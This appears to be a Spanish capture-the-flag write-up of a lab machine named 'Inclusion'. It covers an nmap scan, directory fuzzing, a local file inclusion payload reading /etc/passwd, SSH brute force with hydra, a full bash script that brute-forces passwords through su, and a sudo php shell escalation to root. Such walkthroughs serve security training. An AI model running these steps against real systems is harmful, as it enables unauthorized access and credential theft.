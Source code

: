 ```yaml
---
description: '🧠Dificultad: Medio | 🔓14/07/2025'
---
```


# Inclusion

Empezamos haciendo un `nmap` a la máquina con el parámetro `-p-` para que recorra todos los puertos.

```bash
cat nmap
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 17:50 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
```

Seguidamente, procedo a listar los directorios del servicio web, ya que al acceder a `http://172.17.0.2/` me sale el fichero de configuración de Apache.

```bash
ffuf -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ
```

```bash
shop                [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 0ms]
```

Si accedemos a la página web, encontramos esto:

<figure><img src="../../.gitbook/assets/Pasted image 20250714010243.png" alt=""><figcaption></figcaption></figure>

En la esquina inferior izquierda, se puede observar un error de código php: está intentando obtener el parámetro "archivo", pero no lo encuentra. Esto nos da una pista de que la web utiliza dicho parámetro que, probablemente, utiliza para listar ficheros. Si probamos a poner la url `172.17.0.2/shop/?archivo=../../../../../etc/passwd`, vemos que es vulnerable a LFI:

<figure><img src="../../.gitbook/assets/Pasted image 20250714010651 (1).png" alt=""><figcaption></figcaption></figure>

Entre los usuarios listados en el `/etc/passwd`, encontramos `manchi` y `seller` que tienen tanto un home en `/home` definido, como un `/bin/bash`. Probamos a hacer fuerza bruta al usuario `manchi` con `hydra`:

```bash
hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

{% code fullWidth="false" %}
```
[22][ssh] host: 172.17.0.2   login: manchi   password: lovely
1 of 1 target successfully completed, 1 valid password found
```
{% endcode %}

Con esto ganamos acceso al usuario `manchi` por `ssh`. Una vez dentro, nos damos cuenta de que el usuario no es `sudoer`, ni tampoco hay binarios con bit SUID. Probamos a entrar al otro usuario usando `hydra` nuevamente, pero vemos que por alguna razón está rechazando las conexiones, por lo que puede tener bloqueadas las conexiones por `ssh`. El siguiente paso es probar a hacer fuerza bruta a través de `su` al usuario `seller` desde dentro de la máquina. Nos pasamos por `scp` el `rockyou.txt` a la máquina y tiramos el siguiente script en `bash`:

```bash
#!/bin/bash

# Función que se ejecutará en caso de que el usuario no proporcione 2 argumentos.
mostrar_ayuda() {
    echo -e "\e[1;33mUso: $0 USUARIO DICCIONARIO"
    echo -e "\e[1;31mSe deben especificar tanto el nombre de usuario como el archivo de diccionario.\e[0m"
    exit 1
}

# Llamamos a esta función desde el trap finalizar SIGINT (En caso de que el usuario presione control + c para salir)
finalizar() {
    echo -e "\e[1;31m\nFinalizando el script\e[0m"
    exit
}

trap finalizar SIGINT

usuario=$1
diccionario=$2

# Variable especial $# para comprobar el número de parámetros introducido. En caso de no ser 2, se imprimen las instrucciones.
if [[ $# != 2 ]]; then
    mostrar_ayuda
fi

# Bucle while que lee línea a línea el contenido de la variable $diccionario, que a su vez esta variable recibe el diccionario como parámetro.
while IFS= read -r password; do
    echo "Probando contraseña: $password"
    if timeout 0.1 bash -c "echo '$password' | su $usuario -c 'echo Hello'" > /dev/null 2>&1; then
        clear
        echo -e "\e[1;32mContraseña encontrada para el usuario $usuario: $password\e[0m"
        break
    fi
done < "$diccionario"
```

Después de ejecutar el script, obtenemos la contraseña de `seller`:

```
Contraseña encontrada para el usuario seller: qwerty
```

Con `su` accedemos al usuario. Vemos qué permisos tenemos con `sudo`:

```bash
sudo -l
```

```
Matching Defaults entries for seller on 9c6760c93936:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User seller may run the following commands on 9c6760c93936:
    (ALL) NOPASSWD: /usr/bin/php
```

Vemos que podemos hacer `sudo` al binario `/usr/bin/php` sin necesidad de contraseña. Buscando en [gtfobins](https://gtfobins.github.io/), vemos que podemos escalar privilegios si tenemos permisos para ejecutarlo con `sudo`:

```bash
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

Una vez ejecutado el código `php` con `sudo`, obtenemos acceso al root de la máquina:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250714013436.png" alt=""><figcaption></figcaption></figure></div>
